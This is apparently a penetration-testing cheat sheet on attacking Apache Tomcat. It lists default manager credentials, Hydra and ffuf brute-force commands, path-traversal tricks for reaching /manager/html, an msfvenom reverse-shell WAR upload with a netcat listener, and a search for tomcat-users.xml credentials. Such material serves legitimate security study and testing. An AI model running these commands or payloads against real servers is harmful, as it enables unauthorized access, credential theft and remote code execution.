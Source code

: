 # Apache Tomcat

## Theory

Apache Tomcat (called "Tomcat" for short) is a free and open-source implementation of the Jakarta Servlet, Jakarta Expression Language, and WebSocket technologies. It provides a "pure Java" HTTP web server environment in which Java code can also run.

## Practice

#### Enumeration

{% tabs %}
{% tab title="Fingerprinting" %}
We can attempt to trigger an error on the website as a method of fingerprinting. If the error is similar as the one below, this indicates that the website is running Tomcat.

```bash
$ curl http://target.com/DoesNotExist
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Version Identification" %}
To find the version of Apache Tomcat, a simple command can be executed:

```bash
curl -s http://tomcat-site.local:8080/docs/ | grep Tomcat 
```

This will search for the term "Tomcat" in the documentation index page, revealing the version in the title tag of the HTML response.
{% endtab %}

{% tab title="Manager Files Location" %}
Identifying the exact locations of **`/manager`** and **`/host-manager`** directories is crucial as their names might be altered. A brute-force search is recommended to locate these pages.

```bash
ffuf -u https://example.com/FUZZ -w directories.txt
ffuf -u https://example.com/host-manager/FUZZ -w 
ffuf -u https://example.com/manager/FUZZ -w directories.txt
```

Below are common directories for Apache Tomcat.

```
/examples
/examples/jsp/cal/login.html
/examples/jsp/error/error.html
/examples/jsp/snp/snoop.jsp
/examples/servlet/HelloWorldEXample
/examples/servlet/JndiServlet
/examples/servlet/RequestHeaderExample
/examples/servlet/RequestInfoExample
/examples/servlet/RequestParamExample

/host-manager

/manager
/manager/jmxproxy/?qry=STUFF
/manager/status
/manager/status/all
# We can execute commands in /manager/text/ directory
/manager/text/{command}?{parameters}
/manager/text/deploy?path=/foo
/manager/text/list
/manager/text/resources
/manager/text/serverinfo
/manager/text/vminfo
```
{% endtab %}

{% tab title="Username Enumeration" %}
&#x20;It's possible to enumerate usernames through metasploit:

{% hint style="warning" %}
It only works for Tomcat versions **older than 6**
{% endhint %}

```bash
msf> use auxiliary/scanner/http/tomcat_enum
msf> set TARGETURI /manager  # depending on the website
```
{% endtab %}
{% endtabs %}

#### Credentials

{% tabs %}
{% tab title="Default Credentials" %}
The **`/manager/html`** directory is particularly sensitive as it allows the upload and deployment of WAR files, which can lead to code execution. This directory is protected by basic HTTP authentication, with common credentials being:

```
admin:(empty)
admin:admin
admin:password
admin:password1
admin:Password1
admin:tomcat
manager:manager
root:changethis
root:password
root:password1
root:root
root:r00t
root:toor
tomcat:(empty)
tomcat:admin
tomcat:changethis
tomcat:password
tomcat:password1
tomcat:s3cret
tomcat:tomcat
```
{% endtab %}

{% tab title="Brute Force Attack" %}
To attempt a brute force attack on the manager directory, we may use one of the following commands:

```bash
# FFUF
ffuf -u https://tomcat:FUZZ@example.com/manager -w passwords.txt -fs 140

# Hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f <TARGET> http-get /manager/html
```
{% endtab %}
{% endtabs %}

#### Common Vulnerabilities <a href="#common-vulnerabilities" id="common-vulnerabilities"></a>

{% tabs %}
{% tab title="Path Traversal Exploit" %}
In some [**vulnerable configurations of Tomcat**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) you can gain access to protected directories in Tomcat using the path: `/..;/`

So, for example, you might be able to **access the Tomcat manager** page by accessing: `www.vulnerable.com/lalala/..;/manager/html`

**Another way** to bypass protected paths using this trick is to access `http://www.vulnerable.com/;param=value/manager/html`
{% endtab %}

{% tab title="Password Backtrace Disclosure" %}
Accessing `/auth.jsp` may reveal the password in a backtrace under fortunate circumstances.
{% endtab %}

{% tab title="Double URL Encoding" %}
The CVE-2007-1860 vulnerability in `mod_jk` allows for double URL encoding path traversal, enabling unauthorized access to the management interface via a specially crafted URL.

In order to access to the management web of the Tomcat go to: `pathTomcat/%252E%252E/manager/html`
{% endtab %}

{% tab title="/examples" %}
Apache Tomcat versions 4.x to 7.x include example scripts that are susceptible to information disclosure and cross-site scripting (XSS) attacks. These scripts, listed comprehensively, should be checked for unauthorized access and potential exploitation. Find [more info here](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)

* /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp
{% endtab %}
{% endtabs %}

#### Remote Code Execution (RCE)

{% tabs %}
{% tab title="Uploading WAR file " %}
If you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file (execute code)**.

{% hint style="warning" %}
You will only be able to deploy a WAR if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**).
{% endhint %}

First create a war file using Msfvenom.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<local-ip> LPORT=80 -f war -o shell.war
```

Then upload this file.

```bash
curl --upload-file shell.war -u 'tomcat:password' "https://example.com/manager/text/deploy?path=/shell"
```

Start a listener in local machine.

```bash
sudo rlwrap nc -lvnp 80
```

Now access to `https://example.com/shell`. We should get a shell.
{% endtab %}
{% endtabs %}

#### Post-Exploitation

{% tabs %}
{% tab title="Crential Access" %}
If we are in the target system, we can retrieve information about credentials.

```bash
find / -name "tomcat-users.xml" 2>/dev/null
cat tomcat-users.xml
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat" %}

{% embed url="https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/" %}
